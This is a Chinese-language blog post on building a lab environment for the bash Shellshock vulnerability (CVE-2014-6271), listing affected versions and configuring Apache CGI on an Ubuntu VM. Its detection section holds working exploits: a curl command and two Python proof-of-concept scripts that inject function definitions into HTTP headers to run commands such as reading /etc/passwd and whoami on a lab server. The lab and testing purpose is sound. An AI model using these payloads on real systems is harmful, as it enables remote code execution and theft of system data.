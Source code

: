 ```yaml
---
layout: post
title:  "bash远程代码执行漏洞环境搭建文档"
date:   2017-01-22 10:02:01 +0800
categories: 漏洞分析
tag: bash破壳漏洞
---
```


* content
{:toc}



## 1.&emsp;简介 ##
&emsp;&emsp;&emsp;bash远程代码执行漏洞，该漏洞会影响目前主流的Linux和Mac OSX操作系统平台，包括但不限于Redhat，CentOS，Ubuntu，Debian，Fedora，Amaron Linux，OSX10.10等平台。该漏洞可以通过构造环境变量的值来执行想要执行的攻击代码脚本，会影响到与bash交互的多种应用，包括HTTP，OpenSSH，DHCP等。<br>
&emsp;&emsp;&emsp;针对本次漏洞的检测，需要下载含有bash漏洞版本的ubuntu虚拟机，通过Apache服务开启cgi功能进行远程代码执行操作。
### 1.1&emsp;影响版本 ###
&emsp;&emsp;&emsp;Bash版本小于等于4.3版本。<br>
&emsp;&emsp;&emsp;主要操作系统版本有：

* Red Hat Enterprise Linux 4 (ELS)<br>
* Red Hat Enterprise Linux 4 Extended Lifecycle Support - bash-3.0-27.el4.2
* Red Hat Enterprise Linux 5 - bash-3.2-33.el5.1
* Red Hat Enterprise Linux 5.6 Long Life - bash-3.2-24.el5_6.1
* Red Hat Enterprise Linux 5.9 Extended Update Support - bash-3.2-32.el5_9.2
* Red Hat Enterprise Linux 6 - bash-4.1.2-15.el6_5.1
* Red Hat Enterprise Linux 6.2 Advanced Update Support - bash-4.1.2-9.el6_2.1
* Red Hat Enterprise Linux 6.4 Extended Update Support - bash-4.1.2-15.el6_4.1
* Red Hat Enterprise Linux 7 - bash-4.2.45-5.el7_0.2
* CentOS 5 bash-3.2-33.el5.1
* CentOS 6 bash-4.1.2-15.el6_5.1
* CentOS 7 bash-4.2.45-5.el7_0.2
* Ubuntu:<br>
10.04
bash 4.1-2ubuntu3.1<br>
12.04
bash 4.2-2ubuntu2.2<br>
14.04
bash 4.3-7ubuntu1.1<br>
* Fedora:<br>
19
bash-4.2.47-2.fc19<br>
20
bash-4.2.47-4.fc20<br>
21
bash-4.3.22-3.fc21<br>
* Debian:<br>
4.1-3<br>
4.1-3+deb6u1<br>
4.2+dfsg-0.1<br>
4.2+dfsg-0.1+deb7u1<br>
4.3-9<br>
4.3-9.1<br>
* Amazon Linux AMI
bash-4.1.2-15.19<br>
* Mac OS X
10.10
## 2.&emsp;服务器环境搭建 ##
### 2.1&emsp;安装Ubuntu系统 ###
&emsp;&emsp;&emsp;在官网中下载Ubuntu12.02系统，在VMware中点击创建虚拟机然后导入下载的Ubuntu的iso路径进行安装，安装完成后输入命令<code>bash -version</code>进行查看bash版本，如图所示为version 4.2.24含有bash破壳漏洞。

![bash]({{ '/styles/images/bash/bash_version.png' | prepend: site.baseurl  }})

### 2.2&emsp;安装Apache服务器 ###
&emsp;&emsp;&emsp;1.安装完成Ubuntu虚拟机后通过命令<code>Ctrl+Alt+T</code>打开Terminal窗口输入命令<code>sudo apt-get install apache2</code>进行Apache服务器安装，安装完成后在浏览器中输入网址localhost查看是否为Apache it works的展示页面。

![bash]({{ '/styles/images/bash/it_works.png' | prepend: site.baseurl  }})

&emsp;&emsp;&emsp;2.安装完成后可能输入命令<code>sudo service apache2 restart</code>会出现重启Apache服务时有报错，其主要原因是apache2.conf文件中ServerName IP：Port和Listen IP：Port不一致，即端口不一致。所以在apache2.conf文件中增加<code>ServerName localhost：80</code>即可。
### 2.3&emsp;配置cgi ###
&emsp;&emsp;&emsp;1.首先在根目录下建一个cgi-bin的目录即路径在：<code>/var/www/html/cgi-bin/</code>所有的cgi程序都放在这个cgi-bin的目录下。<br>
&emsp;&emsp;&emsp;2.打开<code>/etc/apache2/sites-enabled/000-default</code>文件。把文件配置修改为下图所示：即配置cgi的路径，其中的<code>/usr/lib/cgi-bin/</code>修改为<code>/var/www/html/cgi-bin/</code>,并添加了AddHandler cgi-script cgi。如果Options没有ExecCGI这项，记得一定要加上。如图所示：

![bash]({{ '/styles/images/bash/000_default.png' | prepend: site.baseurl  }})

&emsp;&emsp;&emsp;3.修改<code>/etc/apache2/mods-enable/cgid.load</code>文件，在mod_cgid.so后面加上<code>AddHandler cgi-script .cgi .pl .py .sh</code>这句，然后重启Apache服务器<code>sudo service apache2 restart</code>如图所示：

![bash]({{ '/styles/images/bash/cgid_load.png' | prepend: site.baseurl  }})

&emsp;&emsp;&emsp;4.修改cgi程序权限。cgi程序属性一定要设为可运行（755），而与cgi有关的HTML文件的目录如果要被cgi程序写入，其权限一定要设为可写（666）。命令为<code>sudo chmod 755 test.cgi</code>
### 2.4&emsp;编写服务端测试文件 ###
&emsp;&emsp;&emsp;输入命令进入cgi-bin目录<code>cd /var/www/html/cgi-bin</code>，修改test.cgi文件<code>sudo gedit test.cgi</code>添加代码:

	#！/bin/bash
	echo "Content-type: text/html"
	echo ""
具体代码如图所示：

![bash]({{ '/styles/images/bash/test_cgi.png' | prepend: site.baseurl  }})

## 3.&emsp;检测方法 ##
### 3.1&emsp;本地验证方法 ###
&emsp;&emsp;&emsp;在shell中执行命令：<br><code>env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"</code>执行命令后，如果显示 Vulnerable CVE-2014-6271，证明系统存在漏洞，可改变echo Vulnerable CVE-2014-6271为任意命令进行执行。执行结果如图：

![bash]({{ '/styles/images/bash/env_test.png' | prepend: site.baseurl  }})

### 3.2&emsp;远程代码执行验证 ###
&emsp;&emsp;&emsp;在另一台虚拟机命令行中输入命令：

	curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' 'http://192.168.197.137/cgi-bin/test.cgi' -I;

执行结果如图：

![bash]({{ '/styles/images/bash/cat_passwd.png' | prepend: site.baseurl  }})

### 3.3&emsp;通过自己python文件以及网上的POC文件验证 ###
&emsp;&emsp;&emsp;网上以及自己写的python POC文件的主要思想就是构造一个含有攻击的request请求头，然后向含有漏洞的靶场地址发送该请求，根据构造的不同的恶意代码执行情况去判断攻击是否成功，从而判断该系统是否存在bash远程代码执行漏洞。具体文件为 [shellshock.py]

		#coding:utf-8
		import urllib,httplib
		import sys,re,urlparse
		
		
		def bash_exp(url):
		    urlsp=urlparse.urlparse(url)
		    hostname=urlsp.netloc
		    urlpath=urlsp.path
		    conn = httplib.HTTPConnection(hostname)
		    headers = {"User-Agent": "() { _:;}; a=`/bin/cat /etc/passwd`;echo $a"}
		    conn.request("GET", urlpath, headers=headers)
		    res = conn.getresponse()
		    res = res.getheaders()
		    for passwdstr in res:
		        print passwdstr[0]+':'+passwdstr[1]
		         
		     
		if __name__ == '__main__':
		     
		    #带http
		    if len(sys.argv)<2:
		        print "Usage: "+sys.argv[0]+" http://192.168.197.137/cgi-bin/test.cgi"
		        sys.exit()
		    else:
		        bash_exp(sys.argv[1])
和 [yaofei_shellshock.py]

	#coding=utf-8
	import urllib, urllib2
	import cookielib, socket
	import cgi, re, os
	
	def get_request(url):
	    socket.setdefaulttimeout(5)
	    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
	                 "CustomHeader": "() { test;};echo; echo shellshock one;",
	                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { whoami;}",
	                 }
	
	    try:
	        req = urllib2.Request(url, headers=i_headers)
	        response = urllib2.urlopen(req)
	        print response.info()
	        html = response.read()
	        print html
	    except:
	        print "Error on request"
	
	if __name__ == '__main__':
	    url = "http://192.168.197.137/cgi-bin/test.cgi"
	    get_request(url)
